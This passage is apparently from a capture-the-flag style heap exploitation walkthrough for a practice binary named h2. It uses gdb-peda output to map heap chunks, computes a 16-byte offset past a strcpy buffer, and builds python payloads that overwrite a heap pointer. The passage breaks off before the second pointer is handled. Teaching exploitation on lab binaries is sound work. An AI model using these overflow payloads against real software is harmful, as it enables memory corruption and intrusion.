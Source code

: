 Keep in mind that 0xa is hex for 10, and 0x2b is hex for 43. One wall of text later...

```
Breakpoint 2, 0x080485ab in main ()
gdb-peda$ x/2w 0x804b008
0x804b008:	0x0804b018	0x0000000f
gdb-peda$ x/s 0x804b018
0x804b018:	"75395128\n"
gdb-peda$ c
```

So our predictions held true (keep in mind that 0xf is hex for the decimal 15). So using our previous claims, our knowledge of how the heap works (see previous challenge for more detail), and analyzing the actual code itself and comparing the positions of the malloc calls to that of the alloated heap spaces (since they are both in the same order) we can have the following heap mapping.

```
0x804b008:	stores a pointer to 0x804b018 in first 4 bytes, and the int 15 in the second four bytes
0x804b018:	stores the address to space which stores our input, only 10 bytes long
0x804b028:	stores a pointer to 0x804b038 in first 4 bytes, and the int 43 in the second four bytes
0x804b038:	stores the address to space that is 10 bytes long that holds the string "4.367" after the first strcpy function writes to it
0x804b048:	stores a pointer to 0x804b058 in first four bytes and the int 10 in the second four bytes
0x804b058:	stores the address to space 10 bytes long, after second strcpy function writes to it it has the value "far far away"
```

So now that we have the mapping, it makes pur job so much easier. Now to construct the payload, however we will do it in parts. the first part involves overflowing the pointer stored at 0x804b028. Let's figure out the offset.

```
>>> 0x804b028 - 0x804b018
16
```

So the first 4 characters we write after the first 16 characters, will be interpreted as the pointer. Let's try to input 17 characters just to see if that holds true (it just break).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2$ python -c 'print "0"*17' | ./h2
Segmentation fault (core dumped)
```

Just as expected. Now let's right 16 characters, followed by the address that is supposed to be there, 0x804b038. This way it shouldn't break.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2$ python -c 'print "0"*16 + "\x38\xb0\x04\x08"' | ./h2
Alpha Centari is 4.367 light years away..
The asteroid is 10 parsecs away.
Imagine how long it will be, untill a researcher that is working hard is living on Mars. You wouldn't know since your not researching.
```

So that is the first pointer we have to worry about. The second is in the first four bytes of 0x804b048. Since we are four bytes past 0x804b028 already, let's figure out the offset.
